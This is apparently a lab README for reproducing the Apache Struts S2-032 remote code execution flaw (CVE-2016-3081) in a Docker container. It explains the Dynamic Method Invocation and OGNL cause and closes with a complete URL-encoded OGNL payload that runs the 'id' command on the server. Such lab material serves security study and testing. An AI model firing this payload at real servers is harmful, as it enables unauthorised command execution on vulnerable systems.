

# S2-032 Remote Code Execution Vulnerablity（CVE-2016-3081）

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: Struts 2.3.20 - Struts Struts 2.3.28 (except 2.3.20.3 and 2.3.24.3)

References:

 - https://cwiki.apache.org/confluence/display/WW/S2-032
 - https://www.cnblogs.com/mrchang/p/6501428.html

## Setup

Execute the following command to start the Struts2 2.3.28：

```
docker-compose up -d
```

After the container is running, visit `http://your-ip:8080` that you can see an example page.

## Exploitation

There’s a feature embedded in Struts 2 that lets the "!" (bang) character invoke a method other than execute. It is called “Dynamic Method Invocation” aka DMI.

A simple way to use DMI is to provide HTTP parameters prefixed with `method:`. For example in the URL it could be `/category.action?method:create=foo`, the parameter value is ignored.

The method name of DMI will be evaluated by OGNL expression engine, which would cause the RCE vulnerability.

Visit following URL to trigger the `id` command:

```
http://your-ip:8080/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=id
```


